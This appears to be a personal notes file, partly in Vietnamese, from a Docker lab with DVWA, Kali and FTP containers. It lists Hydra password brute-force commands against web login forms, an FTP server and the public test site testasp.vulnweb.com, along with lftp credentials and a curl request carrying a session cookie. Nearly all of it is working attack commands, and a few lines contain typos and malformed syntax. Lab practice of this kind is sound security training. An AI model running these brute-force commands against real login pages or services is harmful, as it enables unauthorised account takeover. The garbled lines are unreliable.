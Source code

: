 Page
hydra -l user -p passwords.txt web_app http-post-form 'http://localhost:8000:username_field&password_field=^PASS^:wrong'


hydra -l jane.doe@example.com -P passwords.txt http-post-form "http://web_app:80/:email=^USER^&password=^PASS^:Content-Type=application/x-www-form-urlencoded:Bad combination of e-mail and password!"
hydra -l jane.doe@example.com -P passwords.txt web_app http-post-form "email=^USER^&password=^PASS^:Content-Type=application/x-www-form-urlencoded:Bad combination of e-mail and password!"


hydra -l admin -P passwords.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f
hydra -l admin -P passwords.txt wizardly_booth hsttp-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=log\?pwd=wrong" -V
username=001&password=ssss&Login=Login&user_token=6ffe2046cbcc8623d06a366c5474cfc7

https://medium.com/@hamidullahbayram/using-hydra-on-login-pages-with-a-right-method-dvwa-training-1e85e8d4f5fd

brute-force với ftp:
lệnh vào kali: docker exec -it kali_container /bin/bash
hydra -l user -P home/kali_data/passwords.txt ftp_container ftp

Đăng nhập:
lftp ftp://user:strongpassword123@ftp_container
Lấy file từ server ftp
mget index.html

curl -H "Cookie: security=low; PHPSESSID=gaqp3n4hhqo3fqv8mf7ibt1es1" "http://172.23.0.4/vulnerabilities/brute/?username=admin&password=123&Login=Login"

hydra -l admin -P home/kali_data/passwords.txt 'http-get-form://dvwa_container/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low; PHPSESSID=gaqp3n4hhqo3fqv8mf7ibt1es1:Username and/or password incorrect.'